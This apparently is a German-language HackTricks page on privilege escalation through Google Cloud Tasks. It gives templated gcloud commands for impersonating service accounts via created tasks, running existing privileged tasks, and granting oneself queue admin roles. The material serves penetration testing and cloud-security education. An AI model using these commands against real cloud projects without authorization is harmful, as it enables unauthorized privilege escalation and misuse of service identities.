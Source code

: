 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **andere Dienstkonten impersonifizieren**, indem er Aufgaben erstellt, die mit der Identität des angegebenen Dienstkontos ausgeführt werden. Dies ermöglicht das Senden von **authentifizierten HTTP-Anfragen an IAM-geschützte Cloud Run oder Cloud Functions**-Dienste.
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

Ein Angreifer mit diesen Berechtigungen kann **bestehende geplante Aufgaben ausführen**, ohne Berechtigungen für das mit der Aufgabe verbundene Dienstkonto zu haben. Dies ermöglicht die Ausführung von Aufgaben, die zuvor mit höher privilegierten Dienstkonten erstellt wurden.
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
Der Hauptbenutzer, der diesen Befehl ausführt, **benötigt keine `iam.serviceAccounts.actAs`-Berechtigung** für das Dienstkonto der Aufgabe. Dies ermöglicht jedoch nur das Ausführen vorhandener Aufgaben - es gewährt nicht die Fähigkeit, Aufgaben zu erstellen oder zu ändern.

### `cloudtasks.queues.setIamPolicy`

Ein Angreifer mit dieser Berechtigung kann **sich selbst oder anderen Benutzern Cloud Tasks-Rollen** für bestimmte Warteschlangen gewähren, was potenziell zu `roles/cloudtasks.admin` führen kann, das die Fähigkeit umfasst, Aufgaben zu erstellen und auszuführen.
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
Dies ermöglicht es dem Angreifer, vollständige Cloud Tasks-Administratorberechtigungen für die Warteschlange an jedes Dienstkonto zu gewähren, das er kontrolliert.

## Referenzen

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
